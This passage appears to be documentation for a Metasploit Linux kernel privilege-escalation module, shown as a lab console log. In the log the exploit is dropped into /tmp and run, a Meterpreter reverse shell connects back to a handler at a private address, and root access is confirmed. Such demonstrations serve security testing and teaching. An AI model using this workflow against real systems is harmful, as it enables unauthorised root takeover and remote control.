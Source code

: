     meterpreter > sysinfo
    Computer     : ubuntu
    OS           : Linux ubuntu 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 (x86_64)
    Architecture : x86_64
    Meterpreter  : x86/linux
    meterpreter > getuid
    Server username: uid=0, gid=0, euid=0, egid=0, suid=0, sgid=0

#### Escalate w/ pre-compiled binaries

    msf exploit(netfilter_priv_esc) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Checking if 32bit C libraries, gcc-multilib, and gcc are installed
    [-] libc6-dev-i386 is not installed.  Compiling will fail.
    [-] gcc-multilib is not installed.  Compiling will fail.
    [-] gcc is not installed.  Compiling will fail.
    [*] Dropping pre-compiled exploit on system
    [*] Checking if ip_tables is loaded in kernel
    [+] ip_tables.ko is loaded
    [*] Checking if shem or sham are installed
    [+] shem and sham not present.
    [*] Max line length is 65537
    [*] Writing 7820 bytes in 1 chunks of 21701 bytes (octal-encoded), using printf
    [*] Executing /tmp/8lQZGJdL, may take around 35s to finish.  Watching for /tmp/okDjTFSS to be created.
    [*] Waited 0s so far
    [*] Waited 10s so far
    [*] Waited 20s so far
    [*] Waited 30s so far
    [+] desc finished, env ready.
    [*] Writing payload to /tmp/2016_4997_payload
    [*] Max line length is 65537
    [*] Writing 155 bytes in 1 chunks of 455 bytes (octal-encoded), using printf
    [*] Writing pwn executable to /tmp/nOO6sYqi
    [*] Max line length is 65537
    [*] Writing 8456 bytes in 1 chunks of 22023 bytes (octal-encoded), using printf
    [*] Transmitting intermediate stager for over-sized stage...(105 bytes)
    [*] Sending stage (1495599 bytes) to 192.168.2.137
    [*] Meterpreter session 2 opened (192.168.2.117:4444 -> 192.168.2.137:46778) at 2016-09-24 21:24:22 -0400
    [+] Deleted /tmp/okDjTFSS
    [+] Deleted /tmp/2016_4997_payload
    [+] Deleted /tmp/nOO6sYqi
    
    meterpreter > sysinfo
    Computer     : ubuntu
    OS           : Linux ubuntu 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 (x86_64)
    Architecture : x86_64
    Meterpreter  : x86/linux
    meterpreter > getuid
    Server username: uid=0, gid=0, euid=0, egid=0, suid=0, sgid=0
